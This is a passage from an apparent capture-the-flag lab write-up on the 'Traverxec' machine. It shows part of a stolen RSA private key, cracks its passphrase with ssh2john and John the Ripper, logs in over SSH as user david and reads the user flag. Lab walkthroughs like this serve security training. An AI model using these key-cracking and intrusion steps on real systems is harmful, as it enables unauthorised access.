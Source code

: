 ```bash
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```  

The rest of this process is pretty standard to logging in with SSH. Next, I copied this id_rsa into a local file on my pc named id_rsa and turned it into a hash with SSH2John, then cracked it with John:  

```bash
└─$ ssh2john id_rsa > ssh-hash.txt

└─$ john --wordlist=~/tools/rockyou.txt ssh-hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)     
1g 0:00:00:00 DONE (2022-07-17 01:48) 16.66g/s 2666p/s 2666c/s 2666C/s carolina..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```  

So david's password for his private key is "hunter". Now we can login via SSH by providing -i. However, since its password-protected, there is one more step. We need to modify the permissions of the id_rsa file or it will be rejected. Let's do that using chmod:  


```bash
$ chmod 600 id_rsa

$ ssh david@10.10.10.165 -i id_rsa

Enter passphrase for key 'id_rsa': hunter
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$
```  

Success. Let's grab the user flag real quick:

```bash
david@traverxec:~$ pwd
/home/david
david@traverxec:~$ ls -la
total 36
drwx--x--x 5 david david 4096 Oct 25  2019 .
drwxr-xr-x 3 root  root  4096 Oct 25  2019 ..
lrwxrwxrwx 1 root  root     9 Oct 25  2019 .bash_history -> /dev/null
-rw-r--r-- 1 david david  220 Oct 25  2019 .bash_logout
-rw-r--r-- 1 david david 3526 Oct 25  2019 .bashrc
drwx------ 2 david david 4096 Oct 25  2019 bin
-rw-r--r-- 1 david david  807 Oct 25  2019 .profile
drwxr-xr-x 3 david david 4096 Oct 25  2019 public_www
drwx------ 2 david david 4096 Oct 25  2019 .ssh
-r--r----- 1 root  david   33 Oct 25  2019 user.txt
david@traverxec:~$ cat user.txt
7db0b48469606a42cec20750d9782f3d
```  
